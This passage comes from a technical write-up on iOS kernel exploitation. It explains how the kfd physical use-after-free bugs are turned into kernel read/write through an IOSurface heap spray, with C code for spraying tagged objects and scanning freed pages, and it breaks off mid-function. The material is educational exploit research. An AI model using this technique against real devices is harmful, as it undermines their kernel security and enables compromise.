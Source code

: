 While I won’t go into the details of each vulnerability (they are quite complicated, you can read the original writeups [here](https://github.com/felix-pb/kfd/tree/main/writeups)), assume that each ‘trigger’ will cause a physical use-after-free to occur on an unknown number of kernel pages.

The biggest problem we have is that we cannot choose or predict which pages are reallocated by the kernel. Furthermore, we cannot choose how many pages are reallocated by the kernel. We are given a random number of pages, each at a random address, that may be used by the kernel. The best route to take from here is what is known as a “heap spray”.

Given the nature of the initial primitive, there is only one way we can reliably turn this into more powerful primitives. That is, as the name suggests, ‘spraying’ kernel memory with a large number of the same object, until one lands on a page of memory that we can write to.

Originally adapted for kfd by [opa334](https://github.com/opa334), the IOSurface technique originally used in the [weightBufs](https://github.com/0x36/weightBufs) kernel exploit does exactly this. The whole heap spray process should go something like this:

*   Allocate a large number of IOSurface objects (they are allocated inside kernel memory)
*   When allocating each one, assign a ‘magic’ value to one of the fields, so that we can identify it
*   Scan our freed pages for this magic value
*   When we find an IOSurface on a freed page that we control, we have succeeded!

```
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
    if (*nClients >= 0x4000) return;
    for (int i = 0; i < nSurfaces; i++) {
        fast_create_args_t args;
        lock_result_t result;
        
        size_t size = IOSurfaceLockResultSize;
        args.address = 0;
        args.alloc_size = *nClients + 1;
        args.pixel_format = IOSURFACE_MAGIC;
        
        IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
        io_connect_t id = result.surface_id;
        
        (*clients)[*nClients] = id;
        *nClients = (*nClients) += 1;
    }
}
```

As you can see, `IOSURFACE_MAGIC` is the magic value we can search for, and we just allocate `nSurfaces` number of IOSurfaces with this magic value.

Then by calling this repeatedly, you can get a nice kernel read/write primitive pretty easily:

```
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
    io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
    int nSurfaceIDs = 0;
    
    for (int i = 0; i < 0x400; i++) {
        spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);
        
        for (int j = 0; j < nPages; j++) {
            uint64_t start = puafPages[j];
            uint64_t stop = start + (pages(1) / 16);
            
            for (uint64_t k = start; k < stop; k += 8) {
                if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
                    info.object = k;
                    info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
                    if (self_task) *self_task = iosurface_get_receiver(k);
                    goto sprayDone;
```